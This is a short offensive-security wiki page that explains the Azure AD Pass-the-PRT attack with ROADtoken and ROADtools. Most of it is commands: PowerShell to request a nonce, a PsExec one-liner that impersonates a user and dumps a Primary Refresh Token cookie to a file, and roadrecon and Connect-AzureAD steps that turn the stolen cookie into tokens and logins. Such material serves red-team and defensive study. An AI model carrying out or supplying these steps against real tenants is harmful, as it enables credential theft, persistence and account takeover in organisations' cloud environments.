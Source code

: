 ## Pass-the-PRT Attack Examples

### Attack - ROADtoken

For more info about this way [**check this post**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). ROADtoken will run **`BrowserCore.exe`** from the right directory and use it to **obtain a PRT cookie**. This cookie can then be used with ROADtools to authenticate and **obtain a persistent refresh token**.

To generate a valid PRT cookie the first thing you need is a nonce.\
You can get this with:

```bash
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```

Or using [**roadrecon**](https://github.com/dirkjanm/ROADtools):

```bash
roadrecon auth prt-init
```

Then you can use [**roadtoken**](https://github.com/dirkjanm/ROADtoken) to get a new PRT (run in the tool from a process of the user to attack):

```bash
.\ROADtoken.exe <nonce>
```

As oneliner:

```bash
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```

Then you can use the **generated cookie** to **generate tokens** to **login** using Azure AD **Graph** or Microsoft Graph:

```bash
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
